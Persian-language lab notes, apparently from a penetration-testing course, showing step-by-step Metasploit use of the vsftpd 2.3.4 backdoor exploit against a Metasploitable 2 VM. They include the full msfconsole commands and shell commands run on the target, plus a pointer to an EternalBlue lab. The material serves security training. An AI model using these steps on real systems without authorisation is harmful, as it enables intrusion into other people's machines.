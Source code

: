 - *این حمله را از ماشین Kali به Metasploitable 2 انجام میدهیم.*
- همچنین برای اسیب پذیری `ms17-010` هم میتوانیم از اکسپلویت معروف `Eternal Blue` استفاده کنیم. این تمرین را در جلسه بعدی و در آزمایشگاه Try Hack Me در روم بنام Blue انجام میدهیم:
	- https://tryhackme.com/r/room/blue
		- ![[Pasted image 20240712222126.png]]
##### Instruction Steps
0. استارت `sudo msfconsole`
	1. ![[Pasted image 20240711165330.png]]
1. جستجو و سپس استفاده از اکسپلویت `use exploit/unix/ftp/vsftp_234_backdoor` 
	1. `msf6> use exploit/unix/ftp/vsftp_234_backdoor`
		1. ![[Pasted image 20240711165546.png]]
2. تنظیم مقادیر متغیر های اکسپلویت
	1. `msf6> set RHOST 192.168.1.2`
		1. ![[Pasted image 20240711165715.png]]
3. شروع بهره برداری از اکسپلویت
	1. `msf6> exploit`
		1. ![[Pasted image 20240711165854.png]]
4. بهره برداری با موفقیت تمام شد و میتوانیم به شل تارگت دسترسی داشته باشیم.
---
```sh
sudo msfconsole
"Now msfconsole startd"
msf6> use exploit/unix/ftp/vsftp_234_backdoor
msf6 exploit(unix/ftp/vsftp_234_backdoor) > set RHOST 192.168.1.2
msf6 exploit(unix/ftp/vsftp_234_backdoor) > exploit
```
#### Practical Demo
0. Start msfconsole `sudo msfconsole`
1. Search for `vsftpd` and then use `exploit/unix/ftp/vsftp_234_backdoor`
2. *Set Exploit Options*
	1. در ابتدا باید Payload را تنظیم کنیم که بصورت پیشفرض `cmd/unix/interact` است.
		1. ![[Pasted image 20240711170351.png]]
	2. `show options` See all available option for this exploit
		1. ![[Pasted image 20240711170451.png]]
	3. `set RHOSTS 192.168.110.20` RHOSTS should be target/targets machine IP
		1. ![[Pasted image 20240711170612.png]]
3. *Start Exploitation*
	1. `msf6 exploit(unix/ftp/vsftp_234_backdoor) > exploit`
	2. با شروع بهره برداری میتوانیم مشاهده کنیم که یک Shell از تارگت دریافت شده است:
		1. ![[Pasted image 20240711170818.png]]
	3. در واقع هر کامندی که الان وارد کنیم در ماشین تارگت اجرای میشود. برای Proof of Concept میتوانیم `whoami` را اجرا کرد.
	4. `whoami`
		1. ![[Pasted image 20240711171019.png]]
	5. در واقع کاراکتر یا علامتی مشاهده نمیکنیم که در Shell تارگت هستیم اما اگر پیام `Command Shell session 1 opened` را در ترمینال مشاهده کردیم به معنای این است که دستورات بعدی در ماشین تارگت اجرا میشود و در واقع از آن به بعد به Shell در ماشین تارگت متصل هستیم.
4. *Some Commands we can use in Target Shell*
	1. `?` | `help` Show all available commands
	2. `ps` Show All Process run in target machine
		1. ![[Pasted image 20240711171318.png]]
	3. `l` | `ls` | `ls -ltrh` => list of files in current directory like `dir` or `ls` commands
	4. `cd /mnt/` Move to `/mnt/` directory
5. Hacking done.
---
```sh
sudo msfconsole
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftp_234_backdoor
msf6 exploit(unix/ftp/vsftp_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftp_234_backdoor) > set RHOSTS 192.168.110.20
msf6 exploit(unix/ftp/vsftp_234_backdoor) > exploit
"Shell Found"
```